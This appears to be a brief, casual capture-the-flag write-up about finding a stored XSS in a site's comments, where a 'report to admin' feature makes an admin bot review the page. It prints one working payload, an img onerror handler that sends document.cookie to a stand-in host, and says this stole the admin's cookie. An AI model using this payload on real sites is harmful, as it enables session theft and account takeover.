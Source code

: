 > xss (stored?)

So apparently when i press reprot admin, some guy in the back end just opens the site and review everything??? Thats like insane 25/8 support (25hours a day, 8 days a week, explaining the joke to future me)

![image](https://github.com/user-attachments/assets/86879cff-b63c-473d-a1e3-0148973fab38)

lets start commenting. Triggered an XSS somewhere, then the instance died. Now back with a new one with new tricks.

In the end i broke the site with this payload, cuz it keeps redirecting me. 

![image](https://github.com/user-attachments/assets/7a3a8063-c5d3-425c-9ee0-87fc7ff76140)

```<img src=x onerror="location.href='http://yourserver.com/?c='+document.cookie">```

but on the bright side, we got the admin's cookie by also redirectling the poor fella =)

![image](https://github.com/user-attachments/assets/33f5365f-67fe-4dd9-bf31-299e166318fb)



